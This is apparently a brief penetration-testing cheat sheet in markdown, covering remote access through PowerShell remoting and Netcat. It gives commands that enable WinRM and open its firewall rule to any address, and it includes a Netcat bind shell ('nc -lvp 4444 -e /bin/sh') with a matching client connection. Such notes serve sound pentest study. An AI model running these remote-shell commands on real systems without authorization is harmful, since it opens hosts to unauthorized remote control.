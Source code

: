 # penetration-wiki

## PS-Session

### Server Settings

- username = `easyduck`
- password = `verystrongpassword`
- hostname = `rhostname`
- ipaddress = `xxx.xxx.xxx.xxx`

```pwsh
Enable-PSRemoting
Set-NetFirewallRule -Name "WINRM-HTTP-In-TCP-PUBLIC" -RemoteAddress Any
net start WinRM
```

### Client

pattern 1

```pwsh
Enter-PSSession -ComputerName "xxx.xxx.xxx.xxx" -Credential "easyduck"
```

pattern 2

```pwsh
Enter-PSSession -ComputerName "hostname"-Credential "easyduck"
```

## Netcat

## Server Settings

- RPORT = `4444`
- RHOST = `xxx.xxx.xxx.xxx`

```bash
nc -lvp 4444 -e /bin/sh
```

## Client

```bash
nc xxx.xxx.xxx.xxx 4444
```
